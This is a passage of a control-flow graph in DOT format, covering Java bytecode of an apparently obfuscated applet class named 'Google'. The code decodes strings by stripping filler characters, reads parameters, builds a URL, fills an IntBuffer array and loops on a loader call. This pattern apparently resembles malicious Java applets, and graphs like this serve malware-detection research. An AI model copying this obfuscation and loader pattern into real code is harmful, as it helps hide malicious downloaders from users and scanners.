    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r137"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r137";
    "load.r r0"
    "store.r r137"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"xxx0xxxx090x\""
    "load.r r0"->"push \"xxx0xxxx090x\"";
    "push \"x\""
    "push \"xxx0xxxx090x\""->"push \"x\"";
    "push \"x\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "store.r r143"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"store.r r143";
    "store.r r143"->"load.r r0";
    "push \"s<<<<i<<te\""
    "load.r r0"->"push \"s<<<<i<<te\"";
    "push \"s<<<<i<<te\""->"push \"<\"";
    "push \"<\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Google: java.lang.String getParameter(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Google: java.lang.String getParameter(java.lang.String)>";
    "staticinvoke <F: java.lang.String __K(java.lang.String)>"
    "virtualinvoke <Google: java.lang.String getParameter(java.lang.String)>"->"staticinvoke <F: java.lang.String __K(java.lang.String)>";
    "store.r r0"
    "staticinvoke <F: java.lang.String __K(java.lang.String)>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r137"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r137";
    "load.r r137"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r137";
    "store.r r137"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r137";
    "load.r r137"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r143"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r143";
    "load.r r143"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r129";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r129"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"555905559550909055\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"555905559550909055\"";
    "push \"5\""
    "push \"555905559550909055\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Google: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Google: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>";
    "fieldput <Google: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Google: java.nio.IntBuffer[] __Y(java.lang.String,java.lang.String)>"->"fieldput <Google: java.nio.IntBuffer[] mem>";
    "fieldput <Google: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <C: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <C: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <C: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
